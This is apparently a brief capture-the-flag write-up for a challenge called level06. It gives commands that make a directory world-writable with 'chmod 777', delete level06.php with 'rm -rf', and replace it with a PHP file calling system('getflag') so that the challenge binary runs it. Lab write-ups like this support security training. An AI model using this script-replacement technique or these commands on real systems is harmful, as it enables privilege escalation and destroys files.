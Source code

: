 `chmod 777 .`
`rm -rf level06.php`

create a new `level06.php`

```
<?php
    system('getflag')
?>
```

the level06 binary execute the level06.php
